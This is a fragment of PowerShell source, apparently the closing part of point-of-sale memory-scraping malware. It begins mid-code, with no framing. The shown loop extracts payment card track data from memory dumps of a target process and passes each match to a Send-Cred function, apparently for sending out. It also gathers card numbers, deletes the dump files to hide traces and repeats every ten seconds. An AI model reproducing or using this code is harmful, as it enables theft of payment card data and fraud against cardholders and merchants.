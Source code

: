                                     Send-Cred($td)
                                }
                            }
                        }
                        else {
                            Write-Log "TRACK DATA: $td" "green"
                            Send-Cred($td)
                        }
                    }
                    $cardnumbers += $td.Value
                }
                Write-Log "removing dump file: $($d.FullName)"
                Remove-Item $d.FullName
            }
        }
        else {
            Write-Log "Target process not running"
        }
        sleep 10
    }
}
main 
